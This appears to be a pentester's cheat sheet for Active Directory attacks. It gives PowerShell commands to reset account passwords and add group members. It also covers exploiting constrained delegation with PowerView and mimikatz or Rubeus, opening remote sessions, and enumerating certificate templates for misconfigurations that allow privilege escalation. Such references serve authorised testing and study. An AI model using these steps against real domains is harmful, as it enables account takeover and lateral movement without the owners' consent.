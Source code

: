 ```powershell
# Change an account password
$Password = ConvertTo-SecureString "<new pass>" -AsPlainText -Force
Set-ADAccountPassword -Identity "<AD user username>" -Reset -NewPassword $Password

# Add a user to a group
Add-ADGroupMember "IT Support" -Members "<AD user username>" 
```

# Exploiting Constrained Delegation
```powershell
Get-NetUser -TrustedToAuth # Powerview module to get service accounts trusted to authenticate users to services. (Accounts that can request a TGT)
# Use mimikatz or rubeus to get credentials for this user

# Begin a remote powershell session on a target machine (tickets should be in memory for an impersonated user delegating WSMAN and HTTP authority)
$username = “<USERNAME>”  
$password = “<PASSWORD>”  
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force  
$cred = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
New-PSSession -ComputerName <remote server name>
Enter-PSSession -ComputerName <remote server name>
```
- [[Mimikatz]]
- [[PowerView]]
- [[Kekeo]]
- [[BloodHound]]

# Exploiting Certificate Misconfigurations
Four attributes are required for a certificate misconfiguration to lead to privilege escalation:
- Client Authentication
- CT_FLAG_ENROLEE_SUPPLIES_SUBJECT
- CTPRIVATEKEY_FLAG_EXPORTABLE_KEY
- Certificate Permissions

We can view all certificate templates using the following windows utility.

```powershell
certutil -Template -v > templates.txt
```

# Enumerating ACLs

- [[PowerView]]
- [[BloodHound]]

# Abusing ACLs
- [[PowerView]]
